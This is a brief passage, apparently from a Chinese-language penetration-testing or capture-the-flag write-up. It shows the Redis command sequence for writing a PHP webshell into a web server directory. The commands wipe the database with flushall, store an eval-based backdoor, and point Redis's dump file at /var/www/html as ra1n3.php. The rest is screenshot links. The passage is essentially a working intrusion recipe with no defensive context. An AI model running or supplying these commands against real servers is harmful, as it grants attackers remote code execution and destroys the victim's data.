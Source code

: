 



### 写入webshell

```
flushall
set webshell "\n\n<?php @eval($_POST['ra1n3']);?>\n\n"
config set dir /var/www/html
config set dbfilename ra1n3.php
save
```

![image-20250331152130942](./assets/image-20250331152130942.png)

![image-20250331152223721](./assets/image-20250331152223721.png)
